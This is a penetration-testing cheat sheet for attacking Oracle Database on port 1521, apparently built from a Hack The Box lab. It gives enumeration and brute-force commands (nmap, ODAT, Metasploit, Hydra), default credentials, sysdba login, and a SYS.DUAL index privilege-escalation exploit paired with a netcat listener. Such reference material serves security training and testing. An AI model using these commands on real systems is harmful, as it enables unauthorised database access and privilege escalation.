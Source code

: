 ```yaml
---
description: >-
  Oracle Database is a multi-model database management system produced and
  marketed by Oracle Corporation.
---
```


# 1521 - Oracle DB

Port: 1521

## Commands

Check privileges:

`select * from user_role_privs;`

## Enumeration

### oscanner

Install oscanner: 

`apt-get install oscanner`   

Run oscanner: 

`oscanner -s 192.168.1.200 -P 1521`  

### tnscmd10g

Fingerprint Oracle TNS Version 

Fingerprint oracle tns: 

`tnscmd10g version -h TARGET` 

### Nmap

**Run nmap scripts against Oracle TNS:** 

`nmap -p 1521 -A TARGET` 

Find tns version:

`nmap --script=oracle-tns-version`  

**Brute force oracle user accounts** 

Identify default Oracle accounts: 

 `nmap --script=oracle-sid-brute`  

 `nmap --script=oracle-brute`  

### ODAT

ODAT \(Oracle Database Attacking Tool\) is an open source penetration testing tool that tests the security of Oracle Databases remotely. 

Usage examples of ODAT: 

* You have an Oracle database listening remotely and want to find valid SIDs and credentials in order to connect to the database 
* You have a valid Oracle account on a database and want to escalate your privileges to become DBA or SYSDBA 
* You have a Oracle account and you want to execute system commands \(e.g. reverse shell\) in order to move forward on the operating system hosting the database 

Tested on Oracle Database 10g, 11g, 12c and 18c. 

**Install**: 

`apt install odat` 

**Examples**: 

#### Identify SIDs 

```text
root@kali:/opt/odat-libc2.5-i686# odat sidguesser -s 10.10.10.82 
 
[1] (10.10.10.82:1521): Searching valid SIDs 
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server 
[+] 'XE' is a valid SID. Continue... 
[+] 'XEXDB' is a valid SID. Continue... 
100% |#####################################################################################################################################################| Time: 00:03:49 
[1.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.10.10.82:1521) 
100% |#####################################################################################################################################################| Time: 00:00:09 
[1.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.10.10.82:1521) 
[+] 'XE' is a valid SID. Continue... 
100% |#####################################################################################################################################################| Time: 00:03:20 
[+] SIDs found on the 10.10.10.82:1521 server: XE,XEXDB 
```

### 

### Metasploit

#### sid bruteforce:

```text
msf auxiliary(admin/oracle/sid_brute) > run 

[*] 10.10.10.82:1521 - Starting brute force on 10.10.10.82, using sids from /usr/share/metasploit-framework/data/wordlists/sid.txt... 
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'XE' 
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'PLSExtProc' 
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'CLRExtProc' 
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID '' 
[*] 10.10.10.82:1521 - Done with brute force... 
[*] Auxiliary module execution completed 
```

#### tns version:

```text
auxiliary/scanner/oracle/tnslsnr_version
```

#### sid enum:

```text
auxiliary/scanner/oracle/sid_enum
```

#### index priv esc:

```text
msf > use auxiliary/admin/oracle/oracle_index_privesc
msf auxiliary(oracle_index_privesc) > show actions
    ...actions...
msf auxiliary(oracle_index_privesc) > set ACTION < action-name >
msf auxiliary(oracle_index_privesc) > show options
    ...show and set options...
msf auxiliary(oracle_index_privesc) > run
```

### Hydra

brute-force a listener password if exists:

```text
./hydra -P rockyou.txt -t 32 -s 1521 host.victim oracle-listener
```

## Default accounts

| Username  | Password  |
| :--- | :--- |
| SYSTEM  | MANAGER  |
| SYS  | CHANGE\_ON\_INSTALL  |
| DBSNMP  | DBSNMP  |
| SCOTT  | TIGER  |
| PCMS\_SYS | PCMS\_SYS |
| WMSYS | WMSYS |
| OUTLN | OUTLN |

**Try lowercase as well**

## Connecting to Oracle DB

To interact with Oracle from our Kali box, there are three tools that can come in handy. sqlplus is required for odat to work properly: 

Sqlplus will be installed with odat. So just install odat \(apt install odat\) 

### Connect as normal user:

```text
root@kali:~/hackthebox/silo# sqlplus SCOTT/tiger@10.10.10.82:1521/XE 
SQL*Plus: Release 12.2.0.1.0 Production on Thu Apr 26 08:54:27 2018 

Copyright (c) 1982, 2016, Oracle.  All rights reserved. 

Connected to: 
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production 
 
SQL> 
```

### Connect as sysdba:

```text
sqlplus SCOTT/tiger@10.10.10.82:1521/XE as sysdba
```

## Privilege escalation

**Can also do the Metasploit module**

 ****Oracle priv esc and obtain DBA access: 

**Run netcat**: netcat -nvlp 443 code 

`SQL> create index exploit_1337 on SYS.DUAL(SCOTT.GETDBA('BAR'));` 

**Run the exploit with a select query:** 

`SQL> Select * from session_privs;`  

**Remove the exploit using:** 

`drop index exploit_1337;` 

## Resources:

[https://medium.com/@netscylla/oracle-hacks-part-2-b1ccb1916d1f](https://medium.com/@netscylla/oracle-hacks-part-2-b1ccb1916d1f)

